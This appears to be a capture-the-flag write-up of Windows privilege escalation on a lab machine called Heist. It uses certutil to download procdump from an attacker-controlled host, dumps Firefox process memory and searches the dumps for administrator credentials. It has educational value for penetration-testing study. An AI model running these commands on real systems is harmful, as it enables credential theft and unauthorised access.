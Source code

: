 # Privilege escalation to Administrator
## Firefox Credential files found 
Firefox Credential file found in  `C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db`, which indicates that firefox process is owned by user `chase` and some  credentials in memory can be dumped via from firefox process.
![[Pasted image 20210712100645.png]]
## Firefox process found in processes list
Issuing command `Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id` gave list of processes which included `firefox`.
![[Pasted image 20210712101521.png]]
## Getting memory dump of firefox processes via procdump utility
Transferred `procdump.exe` file to `Heist` machine using `Certutil` utility and command `certutil.exe -urlcache -f http://10.10.14.71:8000/procdump.exe procdump.exe`.
![[Pasted image 20210712104544.png]]
Knowing PID of firefox processes.
![[Pasted image 20210712104744.png]]
Dumping contents of all firefox processes using `.\procdump.exe -ma [PID]` command.
![[Pasted image 20210712105452.png]]
## Getting administrator credentials from dumps
Getting administrator credentials from dumps using `Select-String -Path .\*.dmp -Pattern 'username'` . `Select-String` in windows is like `grep` of linux.
![[Pasted image 20210712110518.png]]
## Logging in with credentials got above as administrator
Logging in with credentials got above as administrator.
![[Pasted image 20210712110655.png]]

